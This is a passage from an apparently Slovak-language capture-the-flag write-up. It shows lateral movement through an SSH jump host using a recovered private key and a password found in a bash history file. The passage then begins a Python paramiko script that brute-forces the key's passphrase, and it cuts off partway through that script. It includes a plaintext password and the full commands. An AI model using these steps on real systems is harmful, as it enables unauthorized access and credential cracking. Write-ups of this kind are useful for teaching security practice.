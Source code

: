 vidíme, že tu jeden platný, pozrieme sa, či je to ten, ktorý máme

    $ cat id_rsa.pub
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCefEn6D9Gk6lWRXChdqEdIojkCr7zbRXv9UfkrXS+zoDdGt5r6jrTzO5orftmTIcTDiB6sntJbAF91vSsQiG8QBMld3Y9VR8ZAkobspuzSZL/rJzjcq4+0ooVEL/OuuMFtW9aPCBmB43Aa50yrhirUyxgT7Oh23iwVMh1s5WyC3WR7QuyMbs0TvZOIQWK4FltcDqT9w+3+oekxOOwyA8QdjodEi2Pmjnw/bTWpTIrH+1QDaN1tp1MbYUaxksAUY5WT5oBIszEEdESPcpIg6/N8MvaSMPoTP1Jmc1TZBR/ZVeSOjBgz5VsNqP+bbd8CUzfoIEIz3mt8Wpw8q+WyIkh1  

Tu je jasne vidieť, že daný kľúč nám budú užitočné, pretože hodnoty sú rovnaké a zároveň vidíme, že ho akceptuje len pokiaľ pripojenie prichádza z ip adresy `10.99.24.100`. 

Z predošlých krokov, konkrétne z výpisu enviroment stránky vidíme, že sa server pripája na `backuper@10.99.24.100`, tak sa skúsime prihlásiť s údajmi, ktoré sme skúsili na smbclient-ovi.

    ssh 10.99.24.100 -l backuper  
    backuper@10.99.24.100's password: 
    Connection to 10.99.24.100 closed.

Očividne ma prihlásilo, ale server hneď ukončil spojenie, takže nedokážem zadávať príkazy. To mi zrejme asi nebude prekážať, lebo ako je vidieť z enviroment výpisu, John to používa len na vytvorenie tunela. Skúsime teda vytvoriť tunel a rovno sa prihlásiť na server johna.

    $ ssh -J backuper@10.99.24.100 -i id_rsa -l 'john@tcc.local' 10.99.24.101
    backuper@10.99.24.100's password: 
    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
    @ WARNING: UNPROTECTED PRIVATE KEY FILE!  @
    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
    Permissions 0644 for 'id_rsa' are too open.
    It is required that your private key files are NOT accessible by others.
    This private key will be ignored.
    Load key "id_rsa": bad permissions
    john@tcc.local@10.99.24.101: Permission denied (publickey).
    
vyzerá, že musím ubrať práva 

    ┌──(kali㉿kali)-[~/backuper/untar/john@tcc.local/.ssh]
    └─$ chmod 600 id_rsa   
       
    ┌──(kali㉿kali)-[~/backuper/untar/john@tcc.local/.ssh]
    └─$ ssh -J backuper@10.99.24.100 -i id_rsa -l 'john@tcc.local' 10.99.24.101
    backuper@10.99.24.100's password: 
    Enter passphrase for key 'id_rsa': 
    Enter passphrase for key 'id_rsa': 
    Enter passphrase for key 'id_rsa': 
    john@tcc.local@10.99.24.101: Permission denied (publickey).
    
Tunel nám vytvorilo správne, dokonca aj akceptovalo privátny kľúč, ale kľúč nám neakceptoval heslo Enterprise1512, známe zo súboru .bash_hotory.. Bruteforce sa mi nechce, skúsim slovník. Slovník nič nenašiel, tak skúsim nejaký pattern bruteforce z hesla ktoré poznám, možno bude iba iné číslo v hesle.

```
import multiprocessing
import paramiko
import sys
from multiprocessing import Value

key_file_path = "C:\\Users\\Majino\\Documents\\catch2024\\id_rsa"
password_found = Value('b', 0)

def try_password(password):
    if password_found.value == 1:
        return
    try:
        paramiko.RSAKey(filename=key_file_path, password=password)
        with password_found.get_lock():
            password_found.value = 1
        print(f"\nPassword found: {password}")
    except:
```